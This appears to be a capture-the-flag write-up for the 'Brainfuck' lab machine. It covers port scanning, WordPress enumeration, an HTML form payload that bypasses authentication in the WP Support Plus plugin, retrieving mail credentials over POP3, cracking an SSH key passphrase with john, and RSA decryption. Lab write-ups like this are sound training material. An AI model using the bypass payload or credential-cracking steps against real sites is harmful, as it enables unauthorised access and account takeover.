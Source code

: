 # brainfuck

# Scanning

furious 10.10.10.17
nmap -sC -sV -p 25,22,110,143,443 -n -Pn 10.10.10.17 -oN targeted

![215612.png](215612.png)

Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb}

we add in /etc/hosts the line:
```hosts
10.10.10.17		brainfuck.htb	sup3rs3cr3t.brainfuck.htb
```
![210220.png](210220.png)
![212820.png](212820.png)

posible user orestis

## wpscan
wpscan --url https://brainfuck.htb/ -e vp, u --disable-tls-checks -o wpscan.txt

![121305.png](121305.png)

users identified

admin
administrator

![121906.png](121906.png)

wp-support vulnerable plugin
```bash
searchsploit wp support plus
searchsploit -x php/webapps/41006.txt 
```

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

![121323.png](121323.png)

```txt
orestis
kHGuERB29DNiNE
```

## telnet 110

```bash
telnet 10.10.10.17 110

rying 10.10.10.17...
Connected to 10.10.10.17.
Escape character is '^]'.
+OK Dovecot ready.
user orestis
+OK
pass kHGuERB29DNiNE
+OK Logged in.
list
+OK 2 messages:
1 977
2 514

retr 1
+OK 977 octets
Return-Path: <www-data@brainfuck.htb>
X-Original-To: orestis@brainfuck.htb
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 33)
	id 7150023B32; Mon, 17 Apr 2017 20:15:40 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: New WordPress Site
X-PHP-Originating-Script: 33:class-phpmailer.php
Date: Mon, 17 Apr 2017 17:15:40 +0000
From: WordPress <wordpress@brainfuck.htb>
Message-ID: <00edcd034a67f3b0b6b43bab82b0f872@brainfuck.htb>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8

Your new WordPress site has been successfully set up at:

https://brainfuck.htb

You can log in to the administrator account with the following information:

Username: admin
Password: The password you chose during the install.
Log in here: https://brainfuck.htb/wp-login.php

We hope you enjoy your new site. Thanks!

--The WordPress Team
https://wordpress.org/
.
retr 2
+OK 514 octets
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
	id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)

Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
.
```

credential for the secret forum are:
username: orestis
password: kIEnnfEKJ#9UmdO


we log as orestis
![143413.png](143413.png)

![152350.png](152350.png)
![150551.png](150551.png)

![153651.png](153651.png)

![154652.png](154652.png)

https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa
```bash
/usr/share/john/ssh2john.py id_rsa > rsa.john
john --wordlist=/usr/share/wordlists/rockyou.txt rsa.john
```
3poulakia!
![161001.png](161001.png)

# ssh connection
cat /home/oretis/user.txt

```bash
def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

def main():

	p = 7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
	q = 7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
	e = 30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
	
    ct = 299604539773691895576847697095098784338054746292313044353582078965

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

if __name__ == "__main__":
    main()
```

pt: 24604052029401386049980296953784287079059245867880966944246662849341507003750

decimal to hex and hex to ascii
